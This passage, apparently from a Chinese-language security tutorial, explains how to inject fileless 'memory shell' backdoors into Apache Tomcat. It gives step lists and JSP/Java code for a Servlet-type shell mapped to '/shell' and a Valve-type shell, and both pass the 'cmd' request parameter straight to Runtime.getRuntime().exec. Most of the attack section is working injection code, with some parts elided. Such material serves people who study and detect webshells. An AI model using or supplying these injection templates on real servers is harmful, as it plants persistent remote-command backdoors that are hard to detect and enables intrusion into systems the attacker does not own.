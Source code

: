 获取StandardContext对象<br />编写恶意Servlet<br />通过StandardContext.createWrapper()创建StandardWrapper对象<br />设置StandardWrapper对象的loadOnStartup属性值<br />设置StandardWrapper对象的ServletName属性值<br />设置StandardWrapper对象的ServletClass属性值<br />将StandardWrapper对象添加进StandardContext对象的children属性中<br />通过StandardContext.addServletMappingDecoded()添加对应的路径映射<br />实例：
```java
......      
        public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
......      
%>

<%
    // 创建一个新的 Shell_Servlet 实例
    Shell_Servlet shell_servlet = new Shell_Servlet();

    // 获取 Shell_Servlet 类的简单名称
    String name = shell_servlet.getClass().getSimpleName();

    // 创建一个新的 Wrapper 实例
    Wrapper wrapper = standardContext.createWrapper();

    // 设置 Wrapper 的加载优先级为 1
    wrapper.setLoadOnStartup(1);

    // 设置 Wrapper 的名称
    wrapper.setName(name);

    // 设置 Wrapper 的 Servlet 实例
    wrapper.setServlet(shell_servlet);

    // 设置 Wrapper 的 Servlet 类名
    wrapper.setServletClass(shell_servlet.getClass().getName());
%>

<%
    // 将 Wrapper 添加到 standardContext 中
    standardContext.addChild(wrapper);

    // 将 "/shell" URL 映射到 Wrapper
    standardContext.addServletMappingDecoded("/shell",name);
%>
```
**Value类内存马**<br />Valve型内存马的注入思路

获取StandardContext对象<br />通过StandardContext对象获取StandardPipeline<br />编写恶意Valve<br />通过StandardPipeline.addValve()动态添加Valve<br />实例：
```java
......      

        public void invoke(Request request, Response response) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
......    
<%
    Shell_Valve shell_valve = new Shell_Valve();
    pipeline.addValve(shell_valve);
%>
```